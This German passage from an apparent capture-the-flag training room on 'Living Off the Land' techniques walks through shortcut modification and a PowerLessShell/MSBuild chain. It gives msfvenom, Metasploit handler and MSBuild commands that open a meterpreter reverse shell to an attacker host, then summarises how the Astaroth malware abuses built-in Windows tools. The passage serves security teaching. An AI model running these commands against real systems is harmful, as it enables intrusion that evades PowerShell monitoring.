Die angehängte Abbildung zeigt ein Beispiel für die Shortcut-Modifikationstechnik, bei der der Angreifer den Excel-Zielbereich modifiziert hat, um mit `rundll32.exe` eine Binärdatei auszuführen. Wir haben uns entschieden, anstelle der Excel-Anwendung einen Taschenrechner auszuführen. Sobald das Opfer auf das Excel-Verknüpfungssymbol klickt, wird `calc.exe` ausgeführt. Für weitere Informationen zur Shortcut-Modifikation können Sie [dieses](https://github.com/theonlykernel/atomic-red-team/blob/master/atomics/T1023/T1023.md) GitHub-Repo überprüfen.  


### Kein PowerShell!

Im Jahr 2019 veröffentlichte Red Canary einen Bedrohungserkennungsbericht, der besagte, dass PowerShell die am häufigsten genutzte Technik für bösartige Aktivitäten ist. Daher begannen Organisationen, `powershell.exe` zu überwachen oder zu blockieren, um die Ausführung zu verhindern. Als Reaktion darauf finden Angreifer andere Möglichkeiten, PowerShell-Code auszuführen, ohne einen Prozess zu spawnen.

PowerLessShell ist ein auf Python basierendes Tool, das bösartigen Code generiert, der auf einer Ziellmaschine ohne Anzeige einer PowerShell-Instanz ausgeführt werden kann. PowerLessShell nutzt den Microsoft Build Engine (MSBuild), eine Plattform zum Erstellen von Windows-Anwendungen, um Remote-Code auszuführen.

Zuerst laden wir eine Kopie des Projekts aus dem GitHub-Repo auf die AttackBox herunter:
```shell
user@machine$ git clone https://github.com/Mr-Un1k0d3r/PowerLessShell.git
```

Einer der Projektanforderungen ist das Erhalten eines PowerShell-Payloads, um ihn kompatibel mit MSBuild zu machen. Auf der AttackBox müssen wir einen PowerShell-Payload mithilfe von `msfvenom` generieren:
```shell
user@machine$ msfvenom -p windows/meterpreter/reverse_winhttps LHOST=AttackBox_IP LPORT=4443 -f psh-reflection > liv0ff.ps1
```

Außerdem müssen wir das Metasploit-Framework ausführen, um auf die umgekehrte Shell zu warten.
```shell
user@machine$ msfconsole -q -x "use exploit/multi/handler; set payload windows/meterpreter/reverse_winhttps; set lhost AttackBox_IP;set lport 4443;exploit"
[*] Using configured payload generic/shell_reverse_tcp
payload => windows/meterpreter/reverse_winhttps
lhost => AttackBox_IP lport => 4443
[*] Started HTTPS reverse handler on https://AttackBox_IP:4443
```

Jetzt, da wir den Payload bereit haben, wechseln wir zum PowerLessShell-Projektverzeichnis, um den Payload für das MSBuild-Tool kompatibel zu machen. Führen Sie dann das PowerLessShell-Tool aus und setzen Sie die Quelldatei auf diejenige, die wir mit msfvenom erstellt haben:
```shell
user@machine$ python2 PowerLessShell.py -type powershell -source /tmp/liv0ff.ps1 -output liv0ff.csproj
```

Sobald der Befehl erfolgreich ausgeführt wurde, müssen wir die Ausgabedatei auf die Windows-Maschine übertragen. Dies können Sie mit dem `SCP` Befehl tun oder einen Webserver auf der AttackBox einrichten (`python3 -m http.server 1337`) und die Datei mit dem Browser herunterladen.

Schließlich auf der Ziel-Windows-Maschine die `.csproj` Datei erstellen und auf die umgekehrte Shell warten!
```cmd
C:\Users\thm> c:\Windows\Microsoft.NET\Framework\v4.0.30319\MSBuild.exe c:\Users\thm\Desktop\liv0ff.csproj
```

Sobald wir den MSBuild-Befehl ausführen, warten wir ein paar Sekunden, bis wir eine umgekehrte Shell erhalten. Beachten Sie, dass kein `powershell.exe` Prozess ausgeführt wird.

## Fragen:
Wiederholen Sie die Schritte der "No PowerShell"-Technik, um eine umgekehrte Shell auf Port 4444 zu erhalten. Sobald eine Verbindung hergestellt ist, wird automatisch eine Flagge auf dem Desktop erstellt. Was ist der Inhalt der Flaggen-Datei?
```

```

# Task 8 - Zenario im Echten Leben
Diese Aufgabe stellt eine Präsentation von Malware vor, die die in diesem Raum diskutierten Techniken verwendet hat.

Im Jahr 2017 entdeckte das Forschungsteam von Windows Defender Advanced Threat Protection (Windows Defender ATP) eine dateilose Malware namens Astaroth. Eine dateilose Malware bedeutet, dass die Malware im System ausgeführt wird, ohne auf die Festplatte zu schreiben. Die Malware führt alle ihre Funktionen im Arbeitsspeicher des Opfergeräts aus.

Astaroth ist als Informationsdieb bekannt, der sensible Informationen von Opfern stiehlt, wie z.B. Kontodaten, Tastatureingaben und andere Daten, und diese an den Angreifer sendet. Die Malware verlässt sich auf verschiedene fortgeschrittene Techniken wie Anti-Debugging, Anti-Virtualisierung, Anti-Emulation-Tricks, Process Hollowing, NTFS Alternate Data Streams (ADS) und "Living off the Land"-Binaries, um verschiedene Funktionen auszuführen.

In der Phase des initialen Zugriffs setzen Angreifer auf eine Spam-Kampagne, die bösartige Anhänge enthält. Die angehängte Datei ist eine LNK-Verknüpfungsdatei, die, sobald das Opfer darauf klickt, zu folgendem führt:

- Ausführung eines **WMIC** Befehls zur Download- und Ausführung von JavaScript-Code.
- Missbrauch von **BITSadmin** zum Herunterladen mehrerer Binärdateien vom Command-and-Control-Server. Interessanterweise verwendet die Malware in einigen Fällen YouTube-Kanalbeschreibungen, um ihre C2-Serverbefehle zu verstecken.
- Verwendung der **BITSadmin** ADS Technik, um ihre Binärdateien innerhalb des Systems für ihre Persistenz zu verstecken.
- Einsatz des **Certutil** Werkzeugs zum Dekodieren einiger heruntergeladener Payloads in DLL-Dateien.
- Ausführung der DLL-Dateien mit Hilfe von **Regsvr32**.

Für weitere Details über die Malware und die Erkennung empfehlen wir die folgenden Quellen:

1. [Astaroth: Banking Trojan](https://www.armor.com/resources/threat-intelligence/astaroth-banking-trojan/)
2. [Microsoft entdeckt filelose Malware-Kampagne mit Astaroth Info Stealer](https://www.trendmicro.com/vinfo/de/security/news/cybercrime-and-digital-threats/microsoft-discovers-fileless-malware-campaign-dropping-astaroth-info-stealer)
3. [Astaroth-Malware verbirgt Befehlsserver in YouTube-Kanalbeschreibungen](https://www.zdnet.com/article/astaroth-malware-hides-command-servers-in-youtube-channel-descriptions/)

## Fragen:
Lesen Sie das Obige!
```
Keine Antwort nötig
```

# Task 9 - Abschluss
In diesem Raum haben wir das allgemeine Konzept des Living Off the Land behandelt und einige Beispiele besprochen, die während Red-Team-Engagements gesehen und verwendet wurden. Die Living Off the Land Techniken können für verschiedene Zwecke eingesetzt werden, darunter Aufklärung, Dateioperationen, Ausführung von Binärdateien, Persistenz und das Umgehen von Sicherheitsmaßnahmen.

Zusätzliche Ressourcen

- [GTFOBins](https://gtfobins.github.io/) - Die Linux-Version des LOLBAS-Projekts.
- [Astaroth: Banking Trojan](https://www.armor.com/resources/threat-intelligence/astaroth-banking-trojan/) - Eine Analyse von realer Malware, in der die Living Off the Land Technik demonstriert wird, die von Malware verwendet wird.
